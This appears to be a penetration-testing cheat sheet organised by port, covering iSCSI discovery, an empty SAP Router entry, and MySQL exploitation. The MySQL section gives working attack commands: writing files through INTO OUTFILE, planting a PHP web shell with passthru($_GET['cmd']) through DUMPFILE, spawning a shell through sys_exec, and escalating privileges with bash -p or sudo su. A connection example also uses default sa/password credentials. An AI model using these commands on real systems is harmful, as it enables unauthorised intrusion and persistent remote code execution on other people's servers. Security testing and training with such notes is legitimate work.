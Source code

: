 #  ISCSI
### 3260
---

## nmap nse
```
iscsi-info.nse
```
## iscsiadm

```
iscsiadm -m discovery -t sendtargets -p 10.10.10.12
```


# SAP ROUTER
### 3299
---
TODO

# MySQL
### 3306
---

## shell
If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.
```
echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e

select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"
```
**or**
```
SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';
```

## tips
```
 select sys_exec('/bin/bash');
 bash -p or sudo su
 ```
## sqsh:
 ```
sqsh program: apt-get install sqsh freetds-bin freetds-common freetds-dev
usage:
add to the bottom of freetds.conf:
[hostname] host = 192.168.168.169
port = 2600
tds version = 8.0
edit ~/.sqshrc:
\set username=sa
\set password=password
\set style=vert
connect: sqsh -S hostname
 ```